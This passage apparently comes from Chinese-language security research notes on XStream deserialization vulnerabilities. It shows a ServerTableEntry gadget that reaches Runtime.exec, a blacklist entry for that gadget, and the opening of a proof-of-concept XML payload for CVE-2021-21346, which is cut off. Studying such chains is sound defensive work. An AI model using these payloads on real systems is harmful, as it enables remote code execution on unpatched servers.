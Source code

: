 ```
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

### [](#分析-1 "分析")分析

长得很像，出发点是一样的PriorityQueue，RCE触发点是com.sun.corba.se.impl.activation.ServerTableEntry

```java
   private String activationCmd;
   public int verify()
   {
       try {

           if (debug)
               System.out.println("Server being verified w/" + activationCmd);

           process = Runtime.getRuntime().exec(activationCmd);
           int result = process.waitFor();
           ...
           
   //synchronized 是同步锁
synchronized void activate() throws org.omg.CORBA.SystemException
   {
       state = ACTIVATED;

       try {
           if (debug)
               printDebug("activate", "activating server");
           process = Runtime.getRuntime().exec(activationCmd);
       } catch (Exception e) {
       ..
```

### [](#黑名单：-2 "黑名单：")黑名单：

```java
com.sun.corba.se.impl.activation.ServerTableEntry
private static final Pattern GETTER_SETTER_REFLECTION = Pattern.compile(".*\\$GetterSetterReflection");
```

[](#CVE-2021-21346 "CVE-2021-21346")CVE-2021-21346
--------------------------------------------------

author: wh1t3p1g

### [](#POC-2 "POC")POC

```xml
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='javax.swing.MultiUIDefaults' serialization='custom'>
      <unserializable-parents/>
      <hashtable>
        <default>
          <loadFactor>0.75</loadFactor>
          <threshold>525</threshold>
        </default>
        <int>700</int>
        <int>0</int>
      </hashtable>
      <javax.swing.UIDefaults>
        <default>
          <defaultLocale>zh_CN</defaultLocale>
```